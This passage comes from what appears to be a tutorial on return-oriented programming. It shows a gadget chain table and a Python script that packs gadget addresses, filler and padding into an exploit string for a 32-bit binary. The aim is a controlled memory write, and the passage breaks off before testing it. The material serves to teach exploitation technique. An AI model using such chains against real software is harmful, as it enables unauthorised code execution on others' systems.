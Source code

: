 This means we can put together the chain like so:

``` example
0x0809a70d  | <mov [edx],eax;ret> | write '0000' to address 0x080ea61
0x080ea061  | 0x080ea061          | next byte after 0x80ea61
0x0806e97a  | <pop edx; ret>      | store next value in edx
0x08054202  | <xor eax,eax; ret>  | zero eax
0x0809a70d  | <mov [edx],eax;ret> | write 'AAAA' to address 0x080ea60
0xdeadbeef  | 0xdeadbeef          | to be stored in edi
0xdeadbeef  | 0xdeadbeef          | to be stored in esi
0xdeadbeef  | 0xdeadbeef          | to be stored in ebx
0x41414141  | 0x41414141          | 'AAAA' to be stored in eax
0x0809e080  | <pop eax; pop ebx; pop esi; pop edi ret>       | store next value in eax
0x080ea060  | 0x080ea060          | address we will write to, now stored in edx
0x0806e87a  | <pop edx; ret>      |  store next value in edx
```

Notice the `0xdeadbeef`. This is because the gadget to set eax comes
with some added baggage, namely a bunch of extra pop's that have to be
handled. These pop's will clear the stack of values, so we need to add
some values on the stack, 0xdeadbeef's, so we don't interfere with the
rest of the chain.

## Executing the ROP Chain

One problem with ROP chains is that they are long, much longer than
something we can just casually type on the command line. It then makes
sense to store it in a file, and python is the right tool for the job.

``` example
p = 'A'*0x70 #put padding here

p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x0809e080) #pop eax;pop ebx; pop esi; pop edi; ret
p += pack('<I', 0x41414141) #'AAAA'
p += pack('<I', 0xdeadbeef) # filler
p += pack('<I', 0xdeadbeef) # filler
p += pack('<I', 0xdeadbeef) # filler
p += pack('<I', 0x0809a70d) # mov [edx],eax;ret
p += pack('<I', 0x08054202) # xor eax,eax
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea061) #address to write to
p += pack('<I', 0x0809a70d) # mov [edx],eax;ret
p += pack('<I', 0xcafebabe) #  will segfault here
print p 
```

Note that the `pack('<I',0xdeadbeef)` will create a properly formatted
little Endian string of 0xdeadbeef. Also, note that we built the exploit
string in reverse order from the presentation above. I also place a
0xcafebabe in there so we can know if we segfaulted and reached the end
of our ropchain, so let's try it out and see if we get there:
